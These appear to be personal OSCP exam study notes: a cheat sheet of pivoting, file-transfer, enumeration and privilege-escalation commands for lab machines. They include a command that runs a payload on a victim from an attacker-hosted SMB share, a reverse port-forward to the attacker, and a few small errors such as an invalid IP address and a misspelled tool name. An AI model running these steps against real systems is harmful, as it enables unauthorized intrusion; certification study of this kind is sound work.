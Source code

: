 OSCP Prep Notes
Welcome to my learning notes for OSCP by OffensiveSecurity. I will update the metrials here during my 30 days course time.

Taking Proof files
Windows
hostname && whoami && type C:\Documents and Settings\Administrator\Desktop\proof.txt && ipconfig /all
Linux
hostname && whoami && cat /root/proof.txt && /sbin/ifconfig
Pivoting
Windows
Find running service which are listening to loopback only (i.e., 127.0.0.1 or LISTENING/LISTEN in thier status):

netstat -ano
For example, if MySQL found listen locally on 3306 we can use plink.exe to prefrom port forward to our machine:

C:\Windows\Temp> plink.exe -l root -pw toor 192.168.0.101 -R 3306:127.0.0.1:3306
Then in kali you could interact with database locally:

root@kali:~/#: mysql -u root -p 
The plink.exe could be found here: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Linux
Use Local port forwarding technqiue with ssh command to as following:

alice@vcitimmachine:~/#: ssh -L 3306:127.0.0.1:3306 root@192.168.0.101
There are many techniques such as Remote port forwarding, Dynamic port forwarding and SSHuttle tool which might be useful for some cases :)

Transferring files
Rdesktop
If if had a remote dektop machine I used the following command to mount share folder:

root@kali:~/#: rdesktop 192.268.11.10 -r disk:share=/home/bayo/store
SMB Share
In kali use Impacket to create local SMB Share:

root@kali:~/#: python /usr/share/impacket/examples/smbserver.py MyShare /
On victim machine execute my payload via SMB:

C:\> \\192.168.11.10\MyShare\exploit_kernerl.exe
Python Server
On my kali machine, start the Python SimpleHTTPServer on port 80:

root@kali:~/#: python -m SimpleHTTPServer 8080
Then use powershell on victim machine / wget in linux to download my exploit.

Methodology
Ports & Services Enumeration using NMAP
root@kali:~/#: nmap -sV -sC -p- <IP>
root@kali:~/#: nmap -sU --top-ports=50 <IP>
root@kali:~/#: nmap --script smb-vuln-* <IP>
root@kali:~/#: nmap -sV -T4 -p- <IP> (Quick method)
Enumerate web application
root@kali:~/#: gobuster dir -u <url> -w /usr/share/wordlist/directory-2.3-meduim.txt
root@kali:~/#: nikito -u <url>
Post Exploition
After gaining inital acsses to shell and prompt TTY shell, then running one of the following script to enumrate:

Windows:

Powerup - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
JAWS - https://github.com/411Hall/JAWS
Linux:

LinEnum.sh - https://github.com/rebootuser/LinEnum
LSE - https://github.com/diego-treitos/linux-smart-enumeration
If none of them works, move to manully search.

Priviliage esclation
Depend on the attack vector preform priviliage esclation.
